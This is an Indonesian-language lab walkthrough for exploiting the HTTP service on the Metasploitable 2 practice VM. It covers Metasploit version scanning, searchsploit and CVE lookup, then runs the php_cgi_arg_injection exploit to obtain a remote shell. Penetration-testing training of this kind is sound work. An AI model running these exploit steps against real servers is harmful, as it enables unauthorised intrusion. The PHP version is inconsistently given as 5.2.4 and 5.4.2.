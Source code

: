 # Exploit Port 80 (HTTP)
- Buka halaman web yang ada di server metasploitable 2 melalui browser dengan url `http://IP_Metasploitable2`

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20HTTP/http%201.JPG)

- Buka msfconsole di terminal
```sh
msfconsole
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20HTTP/http%202.JPG)

- Gunakan modul `auxiliary/scanner/http/http_version` untuk mengetahui web server yang digunakan di server
```sh
use auxiliary/scanner/http/http_version
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20HTTP/http%203.JPG)

- Tampilkan daftar parameter yang dibutuhkan di modul tersebut. Disini semua parameter wajib sudah terisi secara default kecuali parameter `RHOSTS`
```sh
show options
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20HTTP/http%204.JPG)

- Isi parameter `RHOST` dengan IP metasploitable2
```sh
set RHOST <IP_metasploitable2>
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20HTTP/http%205.JPG)

- Jalankan modul tersebut. Setelah dijalankan didapat informasi bahwa web server yang digunakan adalah apache versi `2.2.8` dan menggunakan PHP versi `5.2.4`
```sh
run
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20HTTP/http%206.JPG)

- Gunakan tool `searchploit` untuk mencari celah keamanan dari apache versi `2.2.8` dan filter berdasarkan keyword `php`. Disini terdapat informasi bahwa kelamahan PHP versi `5.4.2` adalah `cgi-bin Remote Code`
```sh
searchsploit apache 2.2.8 | grep php
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20HTTP/http%207.JPG)

- Buka website CVE https://cve.mitre.org/ dan pilih menu Search CVE List

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20HTTP/http%208.JPG)

- Ketikkan di kolom pencarian `php 5.4.2` lalu tekan submit

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20HTTP/http%209.JPG)

- Dari hasil pencarian juga didapat informasi bahwa php 5.4.2 rentan dengan CGI script

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20HTTP/http%2010.JPG)

- Buka kembali tool metasploit dan lakukan pencarian modul exploit untuk php 5.4.2
```sh
search php 5.4.2
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20HTTP/http%2011.JPG)

-gunakan modul `exploit/multi/http/php_cgi_arg_injection` yang terdapat di list nomor 1
```sh
use <nomor_modul>
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20HTTP/http%2012.JPG)

- Tampilkan daftar parameter yang dibutuhkan di modul tersebut. Disini kita hanya perlu mengisi parameter `RHOSTS` saja
```sh
show options
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20HTTP/http%2013.JPG)

- Isi parameter `RHOST` dengan IP metasploitable2
```sh
set RHOST <IP_metasploitable2>
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20HTTP/http%2014.JPG)

- Jalankan modul tersebut
```sh
exploit
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20HTTP/http%2015.JPG)

- Setelah dijalankan kita berhasil masuk ke shell server

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20HTTP/http%2016.JPG)